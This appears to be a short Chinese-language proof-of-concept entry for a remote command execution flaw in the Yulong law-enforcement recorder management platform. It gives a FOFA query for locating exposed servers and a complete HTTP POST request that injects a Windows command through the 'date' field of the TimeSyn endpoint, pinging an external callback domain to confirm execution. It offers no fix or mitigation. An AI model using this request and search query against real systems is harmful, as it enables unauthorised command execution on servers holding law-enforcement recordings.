 # 誉龙数字执法记录仪管理平台 TimeSyn 远程命令执行

# 一、漏洞简介
誉龙数字执法记录仪管理平台是深圳誉龙数字技术有限公司开发的执法记录仪管理平台，该平台存在远程命令执行漏洞，攻击者可以利用该漏洞执行任意命令，这可能导致对系统进行未经授权的操作，例如创建、修改或删除文件、执行系统命令、安装恶意软件等。

# 二、影响版本
+ 誉龙数字执法记录仪管理平台

# 三、资产测绘
+ fofa`body="PView 视音频管理平台"`
+ 特征

![1726295881688-5a934d40-ff14-4e0a-87a0-2dec0b87f3c3.png](./img/Z2u3bzlmVxpGXETB/1726295881688-5a934d40-ff14-4e0a-87a0-2dec0b87f3c3-660762.png)

# 四、漏洞复现
```go
POST /index.php?r=Third/TimeSyn HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Host: 
Cookie: JSESSIONID=AB3CC11444E566879F70BE78C0C518CA
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 96

cloudKey=0x0&date=|cmd.exe+/c+ping jzogguorui.dgrh3.cn&time=1
```

![1726295898690-b6f838cb-5df3-42e7-810e-04a9292c7545.png](./img/Z2u3bzlmVxpGXETB/1726295898690-b6f838cb-5df3-42e7-810e-04a9292c7545-933245.png)



> 更新: 2024-10-22 09:36:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tory9ats6o7dd65g>
